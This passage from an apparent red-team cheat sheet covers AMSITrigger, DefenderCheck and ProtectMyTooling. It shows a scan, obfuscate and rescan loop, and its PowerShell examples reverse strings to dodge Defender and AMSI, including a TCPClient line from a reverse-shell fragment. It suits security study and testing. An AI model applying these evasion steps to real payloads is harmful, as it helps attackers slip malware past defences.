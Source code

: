 **How It Works:**

* Scans the script for AMSI detections.
* Pinpoints the exact code segment causing detection.
* Allows modifications (e.g., obfuscation, string reversal) to bypass detection.

**Usage:**

```bash
AmsiTrigger_x64.exe -i C:\Path\To\Script.ps1
```

**Workflow:**

1. Scan the script with AMSITrigger.
2. Modify the detected code (e.g., obfuscate or reverse strings).
3. Rescan the script. Repeat until no detection is found (`AMSI_RESULT_NOT_DETECTED`).

**Example:**

```powershell
$String = 'niamoDppA.metsyS'
$classrev = ([regex]::Matches($String,'.','RightToLeft') | ForEach {$_.value}) -join ''
$AppDomain = [Reflection.Assembly].Assembly.GetType("$classrev").GetProperty('CurrentDomain').GetValue($null, @())
```

### **DefenderCheck**

DefenderCheck identifies strings and code that might trigger Windows Defender’s detection mechanisms, helping assess what parts of a file are flagged.

**How It Works:**

* Scans files and scripts for known signatures flagged by Windows Defender.
* Provides feedback on strings or code patterns that trigger detections.

**Usage:**

```bash
DefenderCheck.exe Script.ps1
```

* **Workflow:**
  1. Scan the script using DefenderCheck.
  2. Modify detected patterns (e.g., rename variables, obfuscate strings).
  3. Rescan the modified script.
*   **Example:** Reverse the "Net.Sockets" string if detected:

    ```powershell
    $String = "stekcoS.teN"
    $class = ([regex]::Matches($String,'.','RightToLeft') | ForEach {$_.value}) -join ''
    $client = New-Object System.$class.TCPClient($IPAddress,$Port)
    ```

### **ProtectMyTooling**

ProtectMyTooling obfuscates PowerShell payloads (like PowerKatz DLL) to prevent signature detection by antivirus engines.
